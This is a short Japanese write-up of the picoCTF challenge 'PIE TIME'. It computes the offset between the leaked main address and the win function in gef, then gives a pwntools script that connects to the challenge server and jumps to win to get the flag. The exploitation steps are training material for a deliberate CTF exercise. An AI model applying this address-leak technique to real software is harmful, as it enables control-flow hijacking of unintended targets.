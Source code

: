 ## PicoCTF

### PIE TIME

プログラムを実行するとmain関数のアドレスが表示され、
プログラムは入力したアドレスの関数を実行することができる
win関数が存在し、ここに飛べばフラグを取得できる
→main関数とwin関数の差分を計算すれば良い

```
gef➤  b *main
Breakpoint 1 at 0x133d
gef➤  p(*main - *win)
$1 = 0x96
```

オフセットは0x96であることがわかった
つまり以下でフラグを取得できる

```
from pwn import *

#target = process("./vuln")
target = remote('rescued-float.picoctf.net',59172)

rec = target.recvline()
rec2 = rec.split(b': ')[1][:-1]

rec2_str = rec2.decode('utf-8')

value = int(rec2_str, 16)

result = value - 0x96
hex_result = hex(result)

print(hex_result)

#recv.split(b' : ')[1][:-1]
target.sendlineafter(b'Enter the address to jump to, ex => 0x12345:',hex_result)
target.interactive()
```
